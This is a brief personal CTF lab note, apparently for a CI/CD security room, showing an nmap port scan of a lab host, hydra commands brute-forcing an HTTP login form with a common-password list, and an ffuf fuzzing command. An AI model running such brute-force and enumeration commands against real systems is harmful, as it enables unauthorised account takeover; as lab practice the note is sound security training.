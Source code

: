 ```yaml
---
share: true
---
```


NMap
```
root@ip-10-10-213-142:~# nmap 10.10.189.80
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-07 00:11 GMT
Nmap scan report for 10.10.189.80
Host is up (0.00048s latency).
Not shown: 995 closed ports
PORT   STATE SERVICE
7/tcp  open  echo
21/tcp open  ftp
22/tcp open  ssh
23/tcp open  telnet
80/tcp open  http
MAC Address: 02:0A:A2:AB:CF:9B (Unknown)
```

Need to find telnet login
Tried default password incorrect

attempted brute forcing with hydra
`hydra -l admin -P ./SecLists/Passwords/500-worst-passwords.txt `

`hydra -l admin -P ./SecLists/Passwords/500-worst-passwords.txt 10.10.189.80:61337 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"`


brute force the submain list
`root@ip-10-10-213-142:~# ffuf -w ./SecLists/Discovery/DNS/namelist.txt -u http://10.10.189.80:61337/FUZZ`

![[./CTFWriteups/CICD and Build Security/Pasted image 20250206211613.png|Pasted image 20250206211613.png]]


